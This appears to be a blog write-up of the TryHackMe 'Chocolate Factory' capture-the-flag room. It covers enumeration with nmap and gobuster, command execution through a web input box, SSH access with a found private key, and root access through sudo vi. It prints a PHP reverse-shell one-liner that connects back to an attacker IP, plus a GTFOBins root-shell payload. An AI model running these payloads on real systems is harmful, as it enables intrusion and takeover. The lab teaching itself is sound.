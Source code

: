 ```yaml
---
layout: post
title: Tryhackme - Chocolate Factory
date: 2021-01-20 19:00:00 +0000
category: [Tryhackme, Easy]
tags: [thm,linux,easy,reversing,reverse-shell,cipher,gtfobins]
---
```


---
Chocolate Factory is a beginner level room in tryhackme which is based on the ```Charlie and the Chocolate factory``` film. The final objective is to get the user and root flag.
<br>
![cover_image](/assets/img/tryhackme/chocolatefactory/1.png)

**Author** | 0x9747 and saharshtapi and AndyInfoSec
**Description** | A Charlie And The Chocolate Factory themed room, revisit Willy Wonka's chocolate factory!

Deploy the VM and let's go.

## <ins>Getting the key</ins>
---
Let's start enumerating with the usual nmap scan.
<br>
![nmap_scan](/assets/img/tryhackme/chocolatefactory/nmap_scan.png)
<br>
I was not able to login to the ```ftp service```. So, I tried grabbing the banner for other open ports using ```nmap banner script``` and ```netcat```. To run the ```nmap banner script``` use: 
<br>
<pre>nmap --script=banner 10.10.71.79 -p21-125 -v</pre>
<br>
I let nmap script scan run in one terminal and in the meanwhile I checked the individual ports using ```netcat``` utility. After checking some ports, I got this banner from the ```port 113```.
<br>
![banner_grab](/assets/img/tryhackme/chocolatefactory/15.png)
<br>

I noted that ```file name``` and checked other open ports. After the nmap script scan completed I searched for other information but my effort was useless.

I went for the ```http service``` and got the login page. I tried some common credentials but had no luck. 
<br>
![http_service](/assets/img/tryhackme/chocolatefactory/2.png)
<br>
I appended the ```file name``` in the url and got an ```ELF file```. I used ```strings``` to get the contents of the file.
<br>
![file_op](/assets/img/tryhackme/chocolatefactory/6.png)
<br>
<pre>strings key_rev_key</pre>
<br>
![strings_key](/assets/img/tryhackme/chocolatefactory/7.png)
<br>

This should answer the first question.

## <ins>Getting Charlie's password</ins>
---
I used ```gobuster``` to find the hidden directories in the webpage.
<br>
<pre>gobuster dir -u http://machine-ip/ -w /usr/share/dirb/wordlists/common.txt -x php,html,js,txt</pre>
<br>
![gobuster_results](/assets/img/tryhackme/chocolatefactory/3.png)
<br>
I went into ```home.php``` page and found a input box with the placeholder **Command**.
<br>
![home_php](/assets/img/tryhackme/chocolatefactory/4.png)
<br>

To check if the input returns a corresponding output, I used some basic command like ```whoami``` and ```id```. I confirmed that it returns the output. So, I grabbed a ```php reverse shell payload``` and executed it. 
<br>
<pre>php -r '$sock=fsockopen("your-vpn-ip",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'</pre>
<br>
Remember to open a netcat listener in your local machine.
<br>
![reverse_shell](/assets/img/tryhackme/chocolatefactory/5.png)
<br>
We got the reverse shell. Stabilize the shell using ```python pty```.

I found the ```validate.php``` file in the ```/var/www/html``` directory which contains the password of the user ```charlie```
<br>
![validate_php](/assets/img/tryhackme/chocolatefactory/8.png)
<br>

This shoud answer the second question.


## <ins>User flag</ins>
---
After enumerating further, I found the ssh private key in a file named ```teleport```  in the ```/home/charlie``` directory.
<br>
![private_key](/assets/img/tryhackme/chocolatefactory/9.png)
<br>
I copied the ssh private key into a file in my local machine and used it to ssh into the machine with the username ```charlie```. Remember to change the file permissions using...
<br>
<pre>chmod 600 id_rsa_file</pre>
<br>
![user_flag](/assets/img/tryhackme/chocolatefactory/10.png)
<br>
After ssh-ing into the machine we can get the ```user flag```.

## <ins>Root flag</ins>
---
I tried some common ways for ```priviledge escalation``` and finally found that ```/usr/bin/vi``` can be run as root.
<br>
![sudo_list](/assets/img/tryhackme/chocolatefactory/11.png)
<br>
I searched for ```vi``` in ```gtfobins``` and got the payload to spawn the root shell.
<br>
<pre>sudo vi -c ':!/bin/sh' /dev/null</pre>
<br>
![vi_hack](/assets/img/tryhackme/chocolatefactory/12.png)
<br>
Instead of the usual root flag, there is a python file with a message which is encrypted with ```Fernet```.

Fernet is a symmetric key encryption algorithm which makes sure that a message encrypted cannot be read without the key.
<br>
![enrypted_message](/assets/img/tryhackme/chocolatefactory/13.png)
<br>
I searched for ```Fernet decryptor``` in google and came across this [online Fernet decryptor](https://asecuritysite.com/encryption/ferdecode).

Put the message you found in the python file in the ```Token``` input box, the key in the key input box and click on the ```Determine``` button. 
<br>
![root_flag](/assets/img/tryhackme/chocolatefactory/14.png)
<br>
Bingo!!! We got the root flag.

That's it folks. Happy hacking!!!
